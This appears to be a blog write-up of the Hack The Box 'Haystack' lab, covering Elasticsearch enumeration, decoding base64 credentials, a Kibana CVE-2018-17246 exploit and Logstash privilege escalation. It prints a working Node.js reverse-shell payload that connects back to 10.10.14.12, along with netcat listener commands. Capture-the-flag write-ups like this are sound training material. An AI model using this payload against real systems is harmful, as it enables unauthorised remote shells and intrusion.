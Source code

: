 ```yaml
---
layout: single
title: Haystack Writeup
date:  '2019-11-19 14:43:00'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2019/2019-11-19-haystack-writeup/haystack.png
    text: "https://app.hackthebox.eu/machines/195"
typora-copy-images-to: ../../images/posts/2019/${filename}/
---
```

This wasn't my favourite box, and was my first CTF style one, and so I  found it a little frustrating in places and missed a big clue that meant a load of slogging. Once past the user part I found the box a lot more  fun.…

## Enumeration

Starting with Autorecon we can see that ports 80, 22 and 9200 are open. Looking at port 80 we can see it just displays a picture

![vlcsnap-2019-07-22-19h49m58s866](../../images/posts/2019/2019-11-19-haystack-writeup/vlcsnap-2019-07-22-19h49m58s866.png)

I thought this was just nice illustration, needle in a haystack etc, though this was me not being used to CTF style clues. If you download the file and use `strings` on it you'll find a base64 encoded clue for searching. However, I did this the hard way!

Moving onto some Nmap output it showed 9200 was running Elasticsearch

`9200/tcp open  elasticsearch syn-ack ttl 63 Elastic elasticsearch 6.4.2`

## Initial Exploitation

Good stuff, so next we have a look at what indexes are available

![vlcsnap-2019-07-22-19h59m47s931](../../images/posts/2019/2019-11-19-haystack-writeup/vlcsnap-2019-07-22-19h59m47s931.png)

So, two instances and it looks like Kibana is installed somewhere. I tried elasticdump at this point but couldn't get it to work. I then ran a query to return all the results in the quotes index and saved them to a file.

![vlcsnap-2019-07-22-20h04m59s464](../../images/posts/2019/2019-11-19-haystack-writeup/vlcsnap-2019-07-22-20h04m59s464.png)

I then grepped for various words translated to Spanish such as needle, haystack etc. which was on the correct path but the wrong word. In the end I just scanned through the entries manually until I noticed a base64 encoded one

![vlcsnap-2019-07-22-20h08m58s936](../../images/posts/2019/2019-11-19-haystack-writeup/vlcsnap-2019-07-22-20h08m58s936.png)

Decoding this we get
```bash
root@RD1734747W10:~/hackthebox/haystack# echo cGFzczogc3BhbmlzaC5pcy5rZXk= |base64 -d
pass: spanish.is.key
```
Okay, now we need to find the username. I try a couple of different greps based on the word in the sentence with the password, before trying _clave_ which is Spanish for key. Obvious really!

![vlcsnap-2019-07-22-20h13m30s471](../../images/posts/2019/2019-11-19-haystack-writeup/vlcsnap-2019-07-22-20h13m30s471.png)

The second bit of base64 decodes as
```bash
root@RD1734747W10:~/hackthebox/haystack# echo dXNlcjogc2VjdXJpdHkg | base64 -d
user: security
```
Good stuff, lets see if that works to ssh into the box

![vlcsnap-2019-07-22-20h17m22s277](../../images/posts/2019/2019-11-19-haystack-writeup/vlcsnap-2019-07-22-20h17m22s277.png)

Yup, and we can grab the user flag. On to root.

## Escalating Privileges

### Enumeration: Part 2

At this point we need to start enumerating again to see what we can see from our new position. Doing a `ps` it looked like Kibana was running, was wasn't unexpected given the presence of Elasticsearch. Running `ss state listening` showed Kibana listening on 5601.

### Compromising another account

Knowing from the nmap that the Kibana version was likely the same as the Elasticsearch, 6.4.2, I searched for any exploits and found [https://github.com/mpgn/CVE-2018-17246/](https://github.com/mpgn/CVE-2018-17246/) which look promising.

I saved the shell:
```python
(function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4096, "10.10.14.12", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
  });
  return /a/; // Prevents the Node.js application form crashing
})();
```
on my Kali box and the used `scp` to copy it to `\tmp` on the server. I started a listener on Kali with `nc -lvp 4096` and then when logged in as `security` on the server I ran

![vlcsnap-2019-07-23-16h55m08s672](../../images/posts/2019/2019-11-19-haystack-writeup/vlcsnap-2019-07-23-16h55m08s672.png)

and caught the shell in the other window. I did have an issue that took a bit of searching to fix. If the connection dies for any reason re-running the command fails. If you rename `shell.js` to `shell2.js` (or anything else really) it will work again.

### Enumeration: Part 3

Now we are the Kibana user, it's time to enumerate again to see what we have access to now. I used [LinEnum](https://github.com/rebootuser/LinEnum) for this.

LinEnum turned up some interesting files in `/etc/logstash/conf.d/` which meant that any files created with the name starting with `/opt/kibana/logstash_*` and the correct line would be executed by the logstash process which runs as root!

![vlcsnap-2019-07-23-17h15m41s319](../../images/posts/2019/2019-11-19-haystack-writeup/vlcsnap-2019-07-23-17h15m41s319.png)

### Escalation to root

So to exploit this we create a file, `/opt/kibana/logstash_shell` and start a listener `nc -lvp 8080` We then put the following in the file and wait...

![vlcsnap-2019-07-23-17h18m59s311](../../images/posts/2019/2019-11-19-haystack-writeup/vlcsnap-2019-07-23-17h18m59s311.png)

We get a connection back to the listener and the root flag, job done.![vlcsnap-2019-07-23-17h20m21s470](../../images/posts/2019/2019-11-19-haystack-writeup/vlcsnap-2019-07-23-17h20m21s470.png)